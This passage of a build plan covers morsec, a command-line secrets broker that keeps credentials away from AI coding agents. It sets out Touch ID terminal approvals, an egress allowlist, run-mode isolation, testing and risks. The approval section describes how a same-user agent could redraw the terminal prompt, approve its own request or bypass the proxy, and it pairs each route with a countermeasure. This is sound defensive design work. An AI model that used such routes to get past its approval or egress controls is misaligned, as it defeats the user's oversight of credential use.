- **Depends on:** L07. **Owns:** `packaging/`, `scripts/release.sh` (local; no hosted CI in v1, D7).
- **Build:**
  - Reproducible builds (`SOURCE_DATE_EPOCH`, `--locked`, `--remap-path-prefix`).
  - Developer ID signing, hardened runtime and notarization for `ms` and `msd` (there is no
    helper app since the CLI-only decision).
  - Homebrew tap `csakash/tap` with the formula `morsec`, installing `ms` and the `mors`
    symlink. `brew install morsec` works once the tap is added; homebrew-core comes later.
  - SBOM (CycloneDX) and signed checksums (minisign).
  - No auto-update.
  - Check that the names `ms` and `mors` don't collide with existing Homebrew formulas.
- **Verify:** two clean builds give identical hashes; `codesign --verify --strict` and `spctl`
  pass; installing from the tap on a clean macOS VM gives a working `ms --version` and `mors --version`.
- **ARI-42:** GW-2.

**v0.1 gate** (PRD: macOS; vault, import, swap, Claude Code connector, receipts): L00–L10 merged;
the `security-evals` step of `scripts/check.sh` green; a fresh install to the first protected Claude Code session takes under
5 minutes (timed in the e2e run). **Human:** recruit 10 developers for 2 weeks of daily use.

### Wave 3 (v0.2)

**3a: parallel**

#### L11 `approvals-macos` · L
- **Depends on:** L07. **Owns:** `crates/ms-approve/src/macos/`, the approval prompt in `ms-cli`.
  No `apps/MorsecApprove/`: approvals happen in the CLI (decision of 2026-11-14).
- **Build:**
  - The approval details are printed on the user's own terminal (`/dev/tty`, never stdout or
    stderr, which an agent may read or fake): agent, project, session start, exact command, key
    and tier, effect preview, scope, and Deny / Approve.
  - Agent-supplied strings are shown as inert text: control characters, ANSI and bidi overrides
    escaped, nothing truncated in a way that hides arguments, long arguments wrapped in full.
  - `ms` (or msd) confirms with Touch ID through `LocalAuthentication` (`LAContext`,
    `.deviceOwnerAuthenticationWithBiometrics`), falling back to the login password
    (`.deviceOwnerAuthentication`) when there is no Touch ID or it fails.
  - **The terminal text is not trusted** (security review of `cli-scope`, S1): the agent runs as
    the same uid, so it can write to the user's tty and redraw the prompt with a harmless-looking
    request. The binding therefore goes in the system sheet, which no same-uid process can draw
    on: `localizedReason` names the key, its tier and a short request code (6 characters of the
    token HMAC over session, argv hash, cwd and expiry), and the terminal prints the same code
    and tells the user to approve only if the two match. Production requests also show the
    command's binary name and a short digest of the full argv and cwd in the sheet, which the
    terminal repeats next to the arguments. Residual, recorded in `ARI42.md` (AUTH-3): an agent
    that redraws only the argument lines can still mislead a user who doesn't compare the digest;
    the token still binds the real argv, so what runs is exactly what the sheet's digest names.
  - An agent can't approve its own request: the approving `ms` must be outside every agent
    session (the check today's `at_terminal` path uses, L06 process tree) and attached to a
    terminal, and msd shows the prompt for its own pending request, never for text a caller sent.
  - Bound token: HMAC(session, key, argv hash, cwd, scope, expiry). Scopes are "this exact command
    once" (the default) and "this exact command for this session" (PRD §7.2).
  - A timeout rejects. One approval prompt is shown at a time, and prompts are rate-limited (open
    from L05, S4).
  - Replace `msd::approve::DenyApprover` and remove the pre-L11 `at_terminal` paths (L07 hand-over).
- **Verify:** "change one argument after approval → the executor refuses"; "timeout → rejected";
  "approve from inside an agent session → refused"; "the sheet's reason lacks the request's code
  or key → the approval is refused" (the code is derived from the token being approved); a
  rendering test with ANSI, RTL-override and newline payloads (INJ-3); Touch ID itself is a
  recorded manual check.
- **ARI-42:** AUTH-3, INJ-3.

#### L12 `run-core` · L
- **Depends on:** L07. **Owns:** `crates/ms-run/` (except `adapters/`), `ms-shim`, `ms run` CLI module.
- **Build:**
  - **Decide first (open from L00 review):** `SecretRef::find_all` does not find a ref in a DSN
    password slot (`postgres://app:ms://pg/staging@db/app`) or after `:` in a list, because `@ : ? #`
    end a candidate so it agrees with `parse`. Either support the userinfo form explicitly in
    `find_all` (with tests), or keep it and have `ms import` (L04) always rewrite the whole value to
    `ms://…` and document that DSN passwords use the whole-value or `?password=` form.
  - The shim forwards to `msd` only when a ref is present, and otherwise execs the next real
    binary on `PATH` (checking it isn't another shim).
  - Runner: absolute binary from the key's command allowlist, `argv` array, minimal environment,
    cwd limited to registered project roots, stdin forwarding, exit codes passed through.
  - Streaming redactor: Aho–Corasick over the value and its base64, base64url, URL and hex
    encodings, handling matches split across chunk boundaries.
  - A generic adapter for allowlisted CLIs (cloud CLIs, deploy scripts).
  - `ms run -- <cmd>`, which starts a tool with refs resolved by the broker.
- **Verify:** injection payloads in arguments never reach a shell (OUT-1); split-chunk redaction
  tests; the "agent runs `env`" test; a non-allowlisted binary is refused; cwd outside the project
  roots is refused.
- **ARI-42:** OUT-1, OUT-4 (Partial until L23), GW-1.

#### L13 `connect-codex` · M
- **Depends on:** L07. **Owns:** `crates/ms-connect/src/codex/`.
- **Build:**
  - **Spike first:** answer PRD open question 2, whether the Codex desktop app reads
    `~/.codex/config.toml` exactly like the CLI. Also confirm the current key names
    (`shell_environment_policy.set`, the network proxy setting, `mcp_servers.<id>`).
  - Writes a marked, reversible block: refs and CA variables, proxy routing, `mcp_servers.ms`, and
    `mcp_servers.<id>.env` refs for other local MCP servers.
- **Verify:** golden TOML round-trips; the spike result recorded in evidence.
- **ARI-42:** SDLC-2, SDLC-4, MCP-4.

**3b: parallel, after 3a merges**

#### L14 `mcp-server` · M
- **Depends on:** L12. **Owns:** `crates/ms-mcp/`, `ms mcp`.
- **Build:**
  - A stdio MCP server that exposes run capabilities as typed tools, for example `db_query(sql)`
    and `deploy_staging()`, generated from the rules.
  - Inputs are validated against JSON Schema, and identity comes from the peer session, never from
    tool arguments.
  - Tool descriptions are static and versioned, so their hash appears in `ms doctor` (MCP-2).
  - The tool list is pinned to the rules version.
- **Verify:** a tool can't name a different key or session; a schema-violating call is refused;
  every call produces a receipt.
- **ARI-42:** MCP-3, MCP-2, AUTH-2, OUT-1.

#### L15 `run-postgres` · M
- **Depends on:** L11, L12. **Owns:** `crates/ms-run/src/adapters/pg/`.
- **Build:**
  - Adapters for `psql` and `prisma` (including `prisma migrate` as a production-tier action).
  - The URL is rewritten without the password, and the password goes into a short-lived passfile.
  - Read-only rules set `default_transaction_read_only=on` and check a read-only role.
  - Effect preview for production writes: simple DML runs inside `BEGIN … ROLLBACK` to get a row
    count ("3 rows in orders"), skipped when the statement has volatile functions or triggers. If
    the count can't be computed safely, the approval prompt says "unknown".
- **Verify:** a write on a read-only rule fails; the password never appears in `argv` (`ps`
  check); the production `update` from the mockup prompts, and once approved runs exactly once;
  the preview never commits.
- **ARI-42:** AUTH-2, AUTH-3, OUT-1.

#### L16 `run-ssh-git` · M
- **Depends on:** L12 (and L11 for production). **Owns:** `crates/ms-run/src/adapters/ssh_git/`.
- **Build:** `msd` as an SSH agent with destination restriction (session-bind), keys loaded from
  the vault per request; a git credential helper limited to bound hosts; signing requests recorded.
- **Verify:** a sign request for an unbound host is refused; the private key is never on disk
  outside the vault; `git push` to a bound remote works through the helper.
- **ARI-42:** AUTH-2, GW-1, LOG-1.

#### L30 `git-https-swap` · S
Follow-up from L16, which built a git credential helper for HTTPS tokens and dropped it: a
program git starts inside the run could ask the helper for the raw token.
- **Depends on:** L05, L12, L16. **Owns:** `git_hosts` in `crates/ms-rules/`, the git bindings in
  `crates/msd/src/proxy.rs`, `GIT_SSL_CAINFO` in the connectors.
- **Build:** HTTPS git through swap mode. A swap key can name git hosts (`ms rules <key>
  --add-git-host github.com`); on those hosts the proxy swaps the placeholder in the Basic-auth
  password, which is where git sends a token. git only ever holds `ms://<key>`. The connectors
  point git at the CA bundle (`GIT_SSL_CAINFO`; git ignores `SSL_CERT_FILE` on macOS).
- **Verify:** `git push` and `git fetch` over HTTPS through the proxy to a local HTTPS git server
  whose CA only the proxy trusts; the token is never in git's environment, files or output; a
  placeholder sent to a host the key isn't bound to is refused with a receipt.
- **ARI-42:** GW-1, AUTH-2, INJ-4, LOG-1.

#### L17 `doctor` · M
- **Depends on:** L08, L13, L29. **Owns:** `ms doctor` CLI module, `tests/e2e/doctor/`.
- **Build:**
  - Static checks: daemon signed and running, vault reachable, CA trusted, connector blocks
    present and unmodified, MCP tool hashes as expected.
  - `--live`: runs each agent headless (`claude -p`, `codex exec`) with a fixed prompt that
    executes `ms doctor --probe` inside the agent's sandbox. The probe calls a canary host through
    the proxy, which should succeed, and attempts direct egress, which should fail. Results go
    back to `msd`.
  - Output in the mockup's format.
- **Verify:** a broken connector (proxy variable removed) is reported; when direct egress is open,
  doctor fails loudly.
- **ARI-42:** INJ-4 (verify from inside the runtime), SDLC-2.

#### L29 `egress-allowlist` · M
Follow-up D2 from L08, written up by `cli-scope` (too big for that loop).
- **Problem:** `ms connect claude-code` points Claude Code's sandbox at msd
  (`sandbox.network.httpProxyPort`). With a custom proxy port, Claude Code stops filtering and
  msd filters everything, but msd's tunnel allowlist (`ProxyConfig.allow`) is always empty
  (`crates/msd/src/proxy.rs` `build`). So every host no key is bound to is refused, including the
  user's own `allowedDomains` (npm, git hosts) and rule hosts that can't be bound (wildcards, a
  provider with no credential location). Sandboxed Bash can reach only key-bound hosts.
- **Depends on:** L07, L08. **Owns:** an `[egress]` section in `crates/ms-rules/`, the allowlist
  wiring in `crates/msd/src/proxy.rs`, the tunnel kill-switch check in `crates/ms-proxy/`,
  `ms rules` support, and the allowlist in the Claude connector.
- **Build:**
  - The allowlist lives in the MAC'd `rules.toml`: `[egress] allow = ["registry.npmjs.org",
    "*.github.com"]` (exact names or `*.suffix`, validated like `ProxyConfig.allow`). Empty by
    default. A wildcard over a public suffix or a single label (`*.com`, `*.github.io`, where
    anyone can host) is rejected, with a test (security review of `cli-scope`, S2). The check uses
    a pinned, embedded snapshot of the Public Suffix List (private section included), updated by
    a reviewed change only. msd never reads it from an agent-writable file: not Claude Code's `settings.json`,
    not the connector state, not `.morsec.toml`.
  - Adding a host loosens the rules, so it needs an approval (`RulesProposeLoosen`, Touch ID once
    L11 lands); removing one tightens and is saved. A project `.morsec.toml` may only narrow it
    (intersection), like every other rule.
  - msd sets `ProxyConfig.allow` from it, and the proxy rebuilds when the allowlist changes (today
    it rebuilds only when bindings change).
  - Kill switch: new requests are already refused after `ms stop` or a LOG-2 session stop (msd's
    session resolver returns no session), but a tunnel that is already open lasts until it goes
    idle. With a non-empty allowlist that matters more, so `ms stop` must close open allow-listed
    tunnels (AUTH-4).
  - `ms connect claude-code` writes the same list to `allowedDomains` (plus rule hosts), and warns
    about `allowedDomains` entries the user already had that msd will refuse, with the
    `ms rules` command that would allow them.
  - Tunnelled hosts are never MITM'd and never get a key; a `ms://` ref sent to one is still
    refused and recorded (L05 behaviour).
- **Verify:** an allow-listed host tunnels and an unlisted one gets `403` plus a block event; a
  wildcard matches subdomains only; a tampered rules file gives an empty allowlist (fail closed);
  adding a host without approval is refused; a project file can't widen it (property test);
  after `ms stop` an allow-listed CONNECT is still refused (regression) and an open tunnel is
  closed; the connector
  golden includes the list.
- **ARI-42:** INJ-4, AUTH-4, SDLC-2, SDLC-4.

**v0.2 gate** (PRD: run mode for Postgres and SSH/git, Codex connector, Touch ID approvals,
`ms doctor`): L11–L17 and L29 merged. `ms scan` across the dogfood users' transcripts finds zero
values.

**First public CLI release (after v0.2).** The first public release is the CLI, cut once the
v0.2 gate passes, with `scripts/release.sh` (L10) and the Homebrew tap. Before it, a light
hardening pass is pulled forward from L24 (as one small loop, `hardening-lite`): the STRIDE threat
model (`docs/threat-model.md`) and fuzz targets for the dotenv parser, the proxy request head and
the IPC framing, each run until it stops finding new coverage, with any crash fixed. The rest of
L24 (Miri and sanitizers, long fuzzing runs, the review of every `ARI42.md` row, the external
review package) stays in L24.

### Wave 4 (v0.3)

**4a: parallel**

#### L18 `mint-aws` · M
- **Depends on:** L11. **Owns:** `crates/ms-mint/src/aws/`.
- **Build:**
  - A container-credentials endpoint on loopback with a per-session authorization token.
  - STS `AssumeRole` or `GetSessionToken` with a session policy taken from the rules; 15-minute TTL.
  - `revoke_all`: attaches a deny policy with an `aws:TokenIssueTime` condition, so earlier
    sessions are revoked. This is the documented AWS pattern.
- **Verify:** credentials expire on time; a session policy wider than the rule is impossible
  (property test); after `ms stop`, minted credentials fail.
- **ARI-42:** AUTH-1, AUTH-4.

#### L19 `mint-github` · M
- **Depends on:** L11. **Owns:** `crates/ms-mint/src/github/`.
- **Build:** App private key in the vault; installation tokens limited to named repositories and
  permissions; `revoke_all` through `DELETE /installation/token`; swap integration for `api.github.com`.
- **Verify:** a token can't reach a repository outside its scope; revocation works.
- **ARI-42:** AUTH-1, AUTH-2, AUTH-4.

#### L20 `mint-postgres` · S
- **Depends on:** L15. **Owns:** `crates/ms-mint/src/pg/`.
- **Build:** temporary roles with `VALID UNTIL` and grants copied from a template role; cleanup
  job; `revoke_all` drops the roles and terminates their backends.
- **Verify:** the role expires; dropping it ends active sessions.
- **ARI-42:** AUTH-1, AUTH-4.

#### L21 `linux-platform` · L
- **Depends on:** L07, L11. **Owns:** `crates/ms-vault/src/linux/`, `crates/ms-approve/src/linux/`,
  `packaging/linux/`.
- **Build:**
  - A `_morsec` system user owns the daemon (systemd), the vault and the receipts.
  - TPM2-sealed vault key, with a fallback to a file readable only by `_morsec`.
  - `SO_PEERCRED` and `/proc` session identity.
  - The L11 terminal approval prompt, confirmed through polkit (or the user's password) instead of
    Touch ID.
  - System CA trust differs per distro: use bundle variables plus `update-ca-certificates`.
  - `.deb` and `.rpm` packages and Homebrew on Linux.
- **Verify:** the agent's user can't read the vault files or the daemon's memory; the approval
  binding tests from L11 pass on Linux.
- **ARI-42:** GW-1, OUT-4, AUTH-3.

#### L22 `connect-cursor-gemini` · M
- **Depends on:** L17. **Owns:** `crates/ms-connect/src/{cursor,gemini}/`.
- **Build:** connectors for Cursor and Gemini CLI on the same pattern (verify their current config
  formats first); doctor checks for both.
- **Verify:** golden round-trips; live doctor.
- **ARI-42:** SDLC-2, SDLC-4.

#### L23 `isolated-runner` · M
- **Depends on:** L12. **Owns:** `crates/ms-run/src/isolate/`, `packaging/macos/helper/`.
- **Build:**
  - On macOS, a privileged helper (`SMAppService` daemon) creates `_morsec` and runs run-mode
    children as that user. Passfiles and the child's environment become unreadable to the agent's
    user. This closes the residual risk in §3.3.
  - Opt-in at `ms init --isolate`, because it needs an admin prompt. It becomes the default when
    decision D3 says so.
- **Verify:** from the agent's user, reading the child's environment (`ps eww`, sysctl
  `KERN_PROCARGS2`) and the passfile fails.
- **ARI-42:** OUT-4, GW-1.

**4b: sequential**

#### L24 `hardening` · M
- **Depends on:** all of wave 4a. **Owns:** `docs/threat-model.md`, `fuzz/`, fixes routed as small follow-up loops.
  The threat model and the dotenv, request-head and IPC fuzz targets are started earlier, by the
  pre-release hardening pass (see "First public CLI release"); L24 extends them.
- **Done early (loop `hardening`, the pre-release pass, 2026-11-16):** the STRIDE threat model
  `docs/threat-model.md` (assets, actors, the five trust boundaries, 60 threats each with control,
  proving test, status and ARI-42 ids; its test names are checked by the gate); `fuzz/` with the
  shared seed corpus and nightly cargo-fuzz harnesses `dotenv`, `proxy_head`, `ipc_frame`,
  `ipc_decode`; stable proptest `fuzz_*` targets for the same three parsers (plus the proxy inside
  a terminated tunnel and a live IPC server) in the gate under a ceiling, and a long local run of
  each. **Still L24:** continuous coverage-guided runs of the `fuzz/` harnesses (none has run on
  nightly yet), fuzzing ms-rules, the ms-mcp schema validator and the run-mode adapters, Miri and
  sanitizers, the review of every `ARI42.md` row, the external review package, and the open rows
  of the threat model (T-03 socket impersonation first).
- **Build:** a STRIDE threat model for every process boundary; continuous fuzzing of the dotenv
  parser, the proxy request head and the IPC framing; a pass with Miri and sanitizers over
  `unsafe`; a review of every `ARI42.md` row; an external review package (architecture, threat
  model, evidence).
- **Verify:** every fuzz target has run for N hours with no crashes, and every requirement is
  Met, Exception or Human.
- **ARI-42:** EVAL-1, all rows.

**v0.3 gate** (PRD: mint for AWS and GitHub, Linux, Cursor and Gemini CLI; plus one external
security review): L18–L24 merged. **Human:** the external review is booked and done (EVAL-2).

### Wave 5 (v1.0)

**5a: parallel** (L26 and L27; L25 is deferred)

#### L25 `menubar-app` · L · **deferred (out of scope)**
- **Out of scope as of 14 November 2026.** The user decided morsec ships as a CLI only for now.
  Every item on this screen already has a CLI command (`ms status`, `ms log`, `ms log --export`,
  `ms add`, `ms stop`), and an app would add a signed Swift target, UI tests and a second approval
  surface to build and review for a solo maintainer. L28 no longer depends on it. It can come back
  as its own loop after 1.0; the card below is kept as it was for that.
- **Depends on:** L11, L02. **Owns:** `apps/MorsecBar/`.
- **Build:** the mockup's screen 4. Keys (name, mode, tier) with Add key going through the `ms add`
  flow; connected agents; today's record; Export for review; Stop all agent access. Approvals move
  into the app, and the helper stays as a fallback. Notifications for LOG-2 alerts. No setting can
  be loosened without Touch ID.
- **Verify:** UI tests for each panel; Stop works with the CLI unavailable; the app has no
  entitlement to read vault items.
- **ARI-42:** AUTH-4, LOG-4.

#### L26 `import-password-managers` · M
- **Depends on:** L04. **Owns:** `crates/ms-import/src/{onepassword,bitwarden}/`.
- **Build:** `ms add --from op://vault/item/field` and `--from bw:<id>`, using the official `op`
  and `bw` CLIs. Values go straight into the vault through a pipe, never through a temp file.
- **Verify:** the value never touches disk outside the vault; a missing CLI gives a clear error.
- **ARI-42:** GW-1.

#### L27 `export-ari42` · M
- **Depends on:** L02. **Owns:** `crates/ms-receipts/src/export/ari42/`.
- **Build:** `ms log --export --ari42` writes a zip containing receipts for the period, the chain
  verification result, a rules snapshot with versions, an inventory of agents, tools and keys
  (names only), and the PRD §10 control mapping with evidence links. A human-readable summary
  goes in PDF or HTML.
- **Verify:** the export holds only the requested period and project (LOG-4); no values (canary scan).
- **ARI-42:** LOG-4, GOV-1.

**5b: sequential**

#### L28 `release-1.0` · M
- **Depends on:** L26, L27. **Owns:** `packaging/` (Homebrew formula), `docs/`, `README.md`.
- **Build:** a CLI release: the Homebrew formula (`ms` and `mors`), onboarding docs, a measured
  time to first protected session, migration notes from v0.x, and the 1.0 signed and notarized
  release of `ms` and `msd`. No app and no cask (CLI-only decision).
- **Verify:** a clean-machine install-to-protected-session run under 5 minutes; release artifacts
  verified.

**v1.0 gate** (PRD: 1Password/Bitwarden import, ARI-42 export; the PRD's menu-bar app is deferred
by the CLI-only decision): **Human:** 3 startups use the export in a real customer security review.

---

## 6. Running it with gstack-loops

- Per wave, create every loop at once (`gloop new <slug>`) and spec each one from its card with
  `/gloop-spec`.
- Then drive each loop with `gloop run <slug> --mode bypass`. That mode runs headless, edits on
  its own, and stops before push for your approval. Use `--mode interactive` for the spike-first
  loops (L01, L08, L13), where a human decision is expected. Most loops touch
  `review.sensitivePaths`, so they stop before push even in autonomous mode, which is intended.
- **You are the only reviewer.** Every PR is merged by you after the loop's fresh-context review,
  security review and `/qa` are green. Main can't be protected on the current GitHub plan (§8, D1),
  so treat "never push to main" as a discipline: loops always work in `worktrees/<slug>/`.
- **Merge order inside a wave doesn't matter** (owned paths don't overlap). Two shared files can
  still conflict:
  - `Cargo.lock`: take main's version, then `cargo build` to re-resolve.
  - `ARI42.md`: each loop edits only its own rows; resolve row by row. Evidence lives in
    `docs/evidence/<slug>.md` so it never conflicts.
- After a wave merges: `gloop reap`, update the v-gate checklist in this file, then start the next wave.
- **Parallelism:** up to 6 loops in wave 1. Ports don't collide because `loops.json` gives each
  loop its own range (`portStride` 100), and each loop starts its own `msd --foreground` on its
  `{{port}}`.

Rough calendar with 4 loops running at once: wave 0 ≈ 1 week, wave 1 ≈ 1.5 weeks, wave 2 ≈ 1.5
weeks (v0.1 at about 4 weeks, matching the PRD), wave 3 ≈ 3 weeks, wave 4 ≈ 4 weeks, wave 5 ≈
3 weeks. These are agent-loop estimates; review time is the real constraint for a solo maintainer.

---

## 7. Testing strategy

| Layer | What | Where |
|---|---|---|
| Unit and property | parsers, policy, tighten-only merge, redactor, token binding | each crate |
| Integration | in-memory vault + real proxy and runner against local TLS echo, Postgres in Docker, an SSH server in Docker | each crate's `tests/` |
| End to end | fake agent with canary secrets; `security-evals` step in `scripts/check.sh` | `tests/e2e` (L09) |
| Live agents | `claude -p` and `codex exec` against a fixture repo; `ms doctor --live` | nightly or manual (L09, L17) |
| Fuzzing | dotenv, HTTP request head, IPC framing, catalog patterns | `fuzz/` (L04, L05, L24) |
| Leak scan | `ms scan` over real transcripts (success measure: zero leaks) | L09 |

Every loop's `PROOF.md` lists the ARI-42 checks it ran and their results.

---

## 8. Decisions needed from you

| # | Decision | Recommendation | Blocks |
|---|---|---|---|
| D1 | GitHub plan: protect `main` (Pro), or keep relying on loop discipline | Pro, before wave 1, when parallel loops start merging | nothing technical |
| D2 | Apple Developer Program ($99/yr) for Developer ID signing and notarization | Yes. Keychain binding to the signed binary (L01) and the release (L10) need it | L01 spike, L10 |
| D3 | Make the isolated runner (separate `_morsec` user, admin prompt at install) the macOS default | Opt-in at v0.3, default at v1.0 if onboarding stays under 5 minutes | L23 |
| D4 | Rust core and Swift UI (vs Go) | Rust, for reliable zeroization and memory safety. **Decided 2026-11-14: CLI only, no Swift UI** (L11 approves in the terminal; L25 deferred) | L00 |
| D5 | Homebrew tap now, homebrew-core later | Tap (`csakash/tap`) | L10 |
| D6 | Approval scope default: "exact command once" (mockup) vs "once per session" (PRD §5) | Exact command once by default; "for this session" as an explicit choice in the prompt | L11 |
| D7 | Hosted CI (GitHub Actions) in v1 | **Decided 2026-11-13: no.** All checks run locally in `scripts/check.sh`; gloop's build gate runs it via `package.json`. Revisit if the GitHub plan changes. | L00, L09, L10 |

## 9. Risks specific to the build

| Risk | Response |
|---|---|
| A tool rejects the morsec CA or pins certificates | Base-URL mode; per-host opt-out with a warning; listed in `ms doctor` |
| The data-protection keychain is unavailable to a CLI daemon without an app wrapper | Day-one spike in L01; fall back to legacy keychain ACLs |
| Agent setting names change (Claude Code, Codex) | Each connector loop verifies them first; `ms doctor` catches drift |
| Same-user exposure in run mode before L23 | Prefer agent and helper protocols; short-lived passfiles; recorded as Partial in `ARI42.md` |
| Review load for a solo maintainer | At most 4 loops at a time; small loops; `bypass` mode stops before push |
